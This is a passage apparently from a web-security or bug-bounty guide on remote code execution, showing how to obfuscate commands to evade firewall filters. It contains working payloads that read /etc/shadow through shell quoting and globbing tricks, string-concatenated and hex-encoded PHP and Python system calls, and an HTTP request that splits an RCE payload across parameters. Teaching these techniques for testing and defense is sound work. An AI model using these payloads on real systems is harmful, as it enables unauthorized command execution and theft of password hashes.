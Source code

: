 ```python
cat /etc/shadow
cat "/e"tc'/shadow'
cat /etc/sh*dow
cat /etc/sha``dow
cat /etc/sha$()dow
cat /etc/sha${}dow
```

You can also vary the way you write the same command in PHP. For example, PHP allows you to concatenate function names as strings. You can
even hex-encode function names, or insert PHP comments in commands without changing their outcome:

```php
/* Text surrounded by these brackets are comments in PHP. */
```

For example, say you want to execute this system command in PHP:

```php
system('cat /etc/shadow');
```

The following example executes a system command by concatenating the strings `sys` and `tem`:

```php
('sys'.'tem')('cat /etc/shadow');
```

The following example does the same thing but inserts a blank comment in the middle of the command:   `system/**/('ls');`

And this line of code is a hex-encoded version of the system command: `'\x73\x79\x73\x74\x65\x6d'('ls');`

Similar behavior exists in Python. The following are all equivalent in Python syntax:

```python
__import__('os').system('cat /etc/shadow')
__import__('o'+'s').system('cat /etc/shadow')
__import__('\x6f\x73').system('cat /etc/shadow')
```

For example, if the firewall blocks requests that contain the string system, you can split your RCE payload into chunks, like so:

```python
GET /calculator?calc="__import__('os').sy"&calc="stem('ls')"
Host: example.com
```

The parameters will get through the firewall without issue, since the request technically doesn’t contain the string system. But when the server
processes the request, the parameter values will be concatenated into a single string that forms our RCE payload: `"**import**('os').system('ls')"`.

---

# Finding Your First RCE!
